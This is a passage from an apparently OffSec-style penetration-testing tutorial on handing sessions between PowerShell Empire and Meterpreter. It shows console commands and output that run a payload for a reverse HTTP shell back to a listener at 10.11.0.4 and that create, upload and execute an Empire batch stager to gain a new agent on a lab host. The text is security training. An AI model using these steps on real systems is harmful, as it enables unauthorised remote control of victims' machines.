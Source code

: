  After uploading the executable, we issue the dir shell command (Listing 849) to reveal its locationand execute it:
 
 
 (Empire: S2Y5XW1L) > shell C:\Users\offsec.corp\Downloads>met.exe
[*] Tasked S2Y5XW1L to run TASK_SHELL
[*] Agent S2Y5XW1L tasked with task ID 5
[*] Agent S2Y5XW1L returned results.
..Command execution completed.
[*] Valid results returned by 10.11.0.22
 
 With the executable running, we’ll switch back to our meterpreter listener and watch the incomingshell:
 
 [*] Started HTTP reverse handler on http://10.11.0.4:7777
[*] http://10.11.0.4:7777 handling request from 10.11.0.22; Staging x86 payload (18082
[*] Meterpreter session 1 opened (10.11.0.4:7777 -> 10.11.0.22:50597)
meterpreter>
 
 Reversing this process to connect to an Empire agent from an existing meterpreter session is alsosimple. 
 
 We can create a launcher (.bat format) and use meterpreter to upload and execute it. 
 
 Firstwe’ll create the launcher using Empire
 
 (Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
[*] Stager output written out to: /tmp/launcher.bat
 
 Then we can upload and execute it:
 
 meterpreter > upload /tmp/launcher.bat
[*] uploading : /tmp/launcher.bat -> launcher.bat
[*] Uploaded 4.69 KiB of 4.69 KiB (100.0%): /tmp/launcher.bat -> launcher.bat
[*] uploaded : /tmp/launcher.bat -> launcher.bat
meterpreter > shell
Process 4644 created.
Channel 2 created.
C:\Users\offsec.corp\Downloads>dir
dir
Volume in drive C has no label.
Volume Serial Number is 9E6A-47F8
Directory of C:\Users\offsec.corp\Downloads
09/19/2019 08:42 AM <DIR> .
09/19/2019 08:42 AM <DIR> ..
09/19/2019 08:42 AM 4,802 launcher.bat
 1 File(s) 4,802 bytes
 2 Dir(s) 2,022,359,040 bytes free
C:\Users\offsec.corp\Downloads>launcher.bat
launcher.bat

 
 Now we should receive an Empire agent from the compromised host:
 
 (Empire: agents) > [+] Initial agent LEBYRW67 from 10.11.0.22 now active (Slack)
